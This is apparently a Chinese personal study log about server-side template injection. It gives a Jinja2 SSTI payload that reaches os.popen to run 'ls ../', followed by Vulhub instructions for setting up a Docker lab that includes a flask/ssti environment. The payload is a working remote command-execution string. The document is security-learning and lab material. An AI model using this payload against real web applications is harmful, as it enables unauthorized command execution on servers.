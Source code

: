# 627日志
[toc]
## Simple_SSTI
```python
{{config.__class__.__init__.__globals__['os'].popen('ls ../').read() }}
```
ssti 模板注入都有一个config文件在popen中输入指令

## vulhub搭建
### Installation

在Ubuntu 22.04下安装docker:

```bash
# 安装pip
curl -s https://bootstrap.pypa.io/get-pip.py | python3

# 安装最新版docker
curl -s https://get.docker.com/ | sh

# 启动docker服务
systemctl start docker
```

注意，从2022年4月起，`docker compose`作为一个子命令被并入Docker中，成为[Docker Compose V2](https://www.docker.com/blog/announcing-compose-v2-general-availability/)，Python版本的docker-compose将在2023年6月以后被弃用，故后续Vulhub的使用不再需要安装额外的docker-compose，所有文档也会修改为使用`docker compose`子命令。

其他操作系统安装docker可能会有些许不同，请阅读Docker文档进行安装。

## Usage

```bash
# 下载项目
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master

# 进入某一个漏洞/环境的目录
cd flask/ssti

# 自动化编译环境
docker compose build

# 启动整个环境
docker compose up -d
```

每个环境目录下都有相应的说明文件，请阅读该文件，进行漏洞/环境测试。

测试完成后，删除整个环境

```bash
docker compose down -v
```

本项目每个漏洞环境均附带文档，建议你购买1G内存的vps搭建漏洞测试环境，文档中所说的`your-ip`均指你的vps的ip地址，如果你是用虚拟机搭建测试环境，是指你的虚拟机IP，而不是docker容器内部的IP，请不要混淆。